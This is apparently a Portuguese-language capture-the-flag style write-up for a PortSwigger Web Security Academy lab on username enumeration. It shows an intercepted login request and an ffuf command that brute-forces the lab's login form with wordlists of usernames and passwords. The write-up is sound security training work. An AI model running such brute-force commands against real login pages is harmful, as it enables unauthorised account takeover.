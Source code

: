 - #### [hydra](https://www.kali.org/tools/hydra/)
    - Utilizaremos também o `hydra` para realizar o brute force de login.

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end e também para realizar o brute force de login através do intruder e do turbo intruder.

---
    
## **• Username enumeration via subtly different responses.**

Nesse laboratório, o objetivo é conseguir acesso a uma conta de usuário, utilizando o método de brute force de login.

Para isso, iremos utilizar o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

```http

POST /login HTTP/1.1
Host: 0adc0080041796c6c00eef5200ad008b.web-security-academy.net
Cookie: session=vC3uLOV34GnlEqMRZBpwqbsiY0z8CxVp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net
Referer: https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=teste&password=test

```

Através da requisição acima, podemos ver que a aplicação está enviando `username=teste&password=test` para o back-end. Podemos usar essa requisição para realizar o brute force de login, utilizando o `ffuf`:

```bash

ffuf -w users.txt:USERS -w pass.txt:PASS -X POST -d "username=USERS&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" -u https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login

```
